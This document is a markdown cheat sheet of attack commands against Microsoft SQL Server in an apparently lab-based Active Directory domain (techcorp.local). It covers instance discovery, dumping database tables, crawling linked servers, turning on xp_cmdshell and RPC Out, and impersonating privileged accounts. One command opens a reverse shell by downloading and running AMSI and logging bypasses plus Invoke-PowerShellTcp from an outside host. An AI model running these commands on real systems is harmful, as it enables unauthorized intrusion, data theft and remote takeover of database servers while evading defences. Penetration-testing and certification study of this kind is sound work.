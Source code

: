 ### Reconnaissance ###
#### 1. Identify Local and Domain SQL Server Instances ####
- Discover Local SQL Server Instances
`Get-SQLInstanceLocal`

- Discover Domain SQL Server Instances
`Get-SQLInstanceDomain -Verbose`

- Get Server Info for Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`

- Check Network Accessibility for Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLConnectionTest`

- List SQL Servers that use a specific domain account
`Get-SQLInstanceDomain -Verbose -DomainAccount svcadmin`

- Automate Information Gathering
`Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo`

- Find the Roles that the current user has in a SQL Server Instance
`.\SQLRecon.exe /a:WinToken /h:us-mssql.us.techcorp.local,1433 /m:whoami`

- Find users that have the *sql* string in their samaccountnames
`Get-DomainUser -Identity *SQL* | Select-Object samaccountname,cn,description`

- Find appropriately named domain groups and their members.
`Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }`

- Find MS SQL Impersonation Configurations in a SQL Server Instance
	- `.\SQLRecon.exe /a:WinToken /h:us-mssql.us.techcorp.local,1433 /m:impersonate`

	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';"`
	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;"`
#### 2. Querying the Databases ####
- Find non-default Databases in Domain SQL Server Instances
`Get-SQLInstanceDomain | Get-SQLDatabase -NoDefaults`

- List all databases in SQL Server Instances (Local or Domain)
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT name FROM master.dbo.sysdatabases"`

- Get Tables from a Specific Database
	- `Get-SQLTable -Instance us-mssql.us.techcorp.local -DatabaseName msdb`

	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT table_name from master.INFORMATION_SCHEMA.TABLES"`

- List Table Columns on a Specific Database
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM sys.columns WHERE object_id = OBJECT_ID('dbo.spt_values')" | Select-Object name`

- Dump Table content from a Specific Database
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * from [master].[dbo].spt_monitor"`
#### 3. Enumerate Database Links ####
- Crawl Trusted Links
	- `Get-SQLInstanceDomain | Get-SQLServerLink`
	
	- `Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM master..sysservers"`

- Further Crawl Trusted Links using Nested Queries
	-  ```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DB-SQLPROD`",'SELECT * FROM master..sysservers')" | Select-Object srvname,srvproduct```
	 	 
	- ```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DB-SQLPROD`",'SELECT * FROM openquery(`"DB-SQLSRV`",''SELECT * FROM master..sysservers'')')" | Select-Object srvname,srvproduct```

- Recursively Crawl Trusted Links
`Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Verbose`

- Determine Names of Linked Databases
```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM sys.databases')" | Select-Object name```

- List all the Tables Names from a Selected Linked Database
```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * FROM master.sys.tables')" | Select-Object name```

- Dump Table content from a Selected Linked Database
```Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT * FROM openquery(`"DCORP-SQL1`",'SELECT * from [master].[dbo].spt_monitor')"```
#### 4. Command Execution ####
- Enumerate current state of `xp_cmdshell`
`Get-SQLQuery -Instance us-mssql.us.techcorp.local -Query "SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';"`

- Execute OS commands: `xp_cmdshell`
`Invoke-SQLOSCmd -Instance us-mssql.us.techcorp.local -Command whoami`

- Execute OS commands using Linked Databases
`Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query "exec master..xp_cmdshell 'whoami'"`

- Get a reverse shell on a target Linked Database where `xp_cmshell` is enabled
`Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.57/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.57/amsibypasscrtp.txt);iex (iwr -UseBasicParsing http://192.168.100.57/Invoke-PowerShellTcp.ps1)"''' -QueryTarget DB-SQLPROD`

- Enable `RPC Out` and `xp_cmdshell` in a database link that is configured to use the `sa` account.
`Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"`
`Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"`
`Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""`
`Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""`
#### 4. Privilege Escalation ####
- From OS admin to sysadmin via service account impersonation -> then all PowerUpSQL commands can be run as a sysadmin.
`Invoke-SQLImpersonateService -Verbose -Instance us-mssql.us.techcorp.local`

- Run Impersonation Mode
`\SQLRecon.exe /a:windows /h:us-mssql.us.techcorp.local,1433 /m:iwhoami /i:DEV\mssql_svc`